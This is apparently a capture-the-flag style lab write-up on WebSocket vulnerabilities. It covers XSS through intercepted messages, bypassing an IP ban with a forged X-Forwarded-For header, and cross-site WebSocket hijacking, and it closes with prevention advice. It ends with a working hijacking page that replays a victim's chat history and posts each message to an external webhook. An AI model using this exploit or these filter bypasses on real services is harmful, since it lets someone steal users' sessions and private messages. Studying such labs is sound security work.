# What are WebSocket vulnerabilities?

WebSockets are a communication protocol that provides persistent, bidirectional connections between a client and server. A connection is established through an HTTP upgrade handshake, after which messages can flow freely in both directions without the overhead of repeated HTTP requests. Because of this, virtually any web vulnerability that exists in HTTP-based applications can also appear in WebSocket applications: SQL injection, XXE, and client-side attacks like XSS.

The upgrade handshake includes headers such as `Upgrade: websocket`, `Connection: Upgrade`, `Sec-WebSocket-Key`, `Sec-WebSocket-Version`, and `Origin`. Once the server accepts the upgrade with a 101 response, the protocol switches from HTTP to WebSocket.

# How are WebSocket vulnerabilities exploited?

- **Message manipulation:** if the server processes incoming WebSocket messages and reflects their content to other users without sanitization, an attacker can inject malicious payloads such as XSS directly into a message.
- **Handshake manipulation:** security controls applied at the handshake level (IP bans, origin checks) can sometimes be bypassed by forging headers like `X-Forwarded-For` during the upgrade request.
- **Cross-site WebSocket hijacking (CSWSH):** if the WebSocket handshake relies solely on session cookies without a CSRF token, an attacker's page can initiate a cross-origin WebSocket connection in the victim's browser. The browser automatically sends the cookies, giving the attacker full two-way access to the victim's session.

# How to prevent WebSocket vulnerabilities?

- Use `wss://` (WebSocket over TLS) rather than `ws://`.
- Protect the handshake with a CSRF token or equivalent unpredictable value.
- Treat all incoming WebSocket messages as untrusted input and apply the same sanitization and validation used for HTTP requests.
- Do not rely on IP-based access controls that can be overridden by spoofed headers.

# 1. Manipulating WebSocket messages to exploit vulnerabilities

A live chat page establishes a WebSocket connection to the server. After the connection opens, the client sends `READY` and the server replies with `{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}`. Subsequent messages follow the pattern: the client sends `{"message":"hello"}`, the server echoes it back as `{"user":"You","content":"hello"}`, then sends a `TYPING` notification, followed by `{"user":"Hal Pline","content":"Answer"}`.



- Firefox was configured to proxy traffic through Burp, allowing the WebSocket messages to be intercepted and inspected.





- A `<script>alert(1)</script>` payload was sent but did not execute, as the client encodes the content before transmission.
- Intercepting the message in Burp Proxy and replacing it with `` bypasses the client-side encoding. The server reflects the raw payload to the support agent's browser, triggering the alert.




# 2. Manipulating the WebSocket handshake to exploit vulnerabilities

The same live chat application now includes a server-side XSS filter. Sending a basic XSS payload causes the connection to be terminated and the IP address to be banned, returning a 401 with the message "The address is blacklisted" on all subsequent requests.




- Adding `X-Forwarded-For: 1.2.3.4` to the WebSocket handshake request in Burp Repeater presents a different IP to the server, allowing the connection to succeed again.



- With the connection re-established, the filter is bypassed using a case-obfuscated payload: ``. The filter matched only the lowercase `onerror` pattern, so mixed casing evades it and the alert fires in the support agent's browser.

# 3. Cross-site WebSocket hijacking

The same chat application replays the full message history to a client immediately after the `READY` message is sent, before the `CONNECTED` notification. This means whoever opens a WebSocket connection in the victim's browser context receives the chat history, which may contain sensitive information such as credentials.

- Inspecting the handshake in Burp shows no CSRF token; the only session information is the session cookie.




- The exploit page opens a cross-origin WebSocket connection to the vulnerable endpoint. The browser automatically includes the session cookie, so the server accepts the connection as the victim's session. Sending `READY` triggers the history replay, and each incoming message is forwarded to an attacker-controlled endpoint.
- The exploit was verified against the attacker's own account, with the chat history successfully logged to the browser console.



- The lab's exfiltration step requires an external HTTP listener; Burp Collaborator is behind a paywall and webhook.site was blocked by the lab environment, so full exfiltration to an external server could not be demonstrated.

**Exploit (html/3.html):**
```html
<html>
  <body>
    <h1>Hello</h1>
    <script>
      const socket = new WebSocket('wss://0a3a0081031b2b6d80b40da000b400c9.web-security-academy.net/chat');

      socket.onopen = function(event) {
        socket.send('READY');
      };
      
      socket.onmessage = function(event) {
        fetch('https://webhook.site/8af937b8-6032-43b6-8608-b93b1e32fb95', {method: 'POST', mode: 'no-cors', body: event.data});
      };
    </script>
  </body>
</html>
```
